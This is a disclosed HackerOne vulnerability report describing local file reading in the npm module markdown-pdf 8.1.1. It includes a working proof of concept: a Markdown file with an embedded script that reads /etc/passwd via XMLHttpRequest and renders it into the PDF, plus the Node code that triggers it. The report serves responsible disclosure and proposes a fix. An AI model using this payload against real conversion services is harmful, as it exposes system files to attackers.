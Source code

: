 # [markdown-pdf] Local file reading

## Report Details
- **Report ID**: 360727
- **URL**: https://hackerone.com/reports/360727
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-06-01T09:15:21.413Z
- **Disclosed**: 2018-07-20T20:20:03.254Z

## Reporter
- **Username**: n1__
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report ```local file reading``` in ```markdown-pdf```
It allows to insert a malicious html code, which allows to read the local files.

# Module

**module name:** markdown-pdf
**version:** 8.1.1
**npm page:** `https://www.npmjs.com/package/markdown-pdf`

## Module Description

Node module that converts Markdown files to PDFs.

The PDF looks great because it is styled by HTML5 Boilerplate. What? - Yes! Your Markdown is first converted to HTML, then pushed into the HTML5 Boilerplate index.html. Phantomjs renders the page and saves it to a PDF. You can even customise the style of the PDF by passing an optional path to your CSS and you can pre-process your markdown file before it is converted to a PDF by passing in a pre-processing function, for templating.

## Module Stats

778 downloads in the last day
9,801 downloads in the last week

# Vulnerability

## Vulnerability Description

The markdown-pdf module allows you to convert markdown files to pdf. Due to insufficient filtration of the user input files, exist the possibility of inject a malicious html code. 

## Steps To Reproduce:

1. Make the file ``` test.md ``` with following content:

```
# this is h1
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

2. Make the file ``` test.js ``` with following content:

```javascript
var markdownpdf = require("markdown-pdf"), fs = require("fs")

fs.createReadStream("test.md")
  .pipe(markdownpdf())
  .pipe(fs.createWriteStream("document.pdf"))
```

3. Run the script: ``` node test.js ```
4. Open the file ```document.pdf ``` in the same directory


## Supporting Material/References:

* Operating system: Ubuntu 14.04
* Node.js 9.8.0
* npm 6.1.0

# Wrap up

* I contacted the maintainer to let him know: N
* I opened an issue in the related repository: N

# Recommendations fix:

Use html encode for encoding an user content, which not a markdown.

## Impact

After converting the file, user can read a local file of system.

## Attachments
No attachments
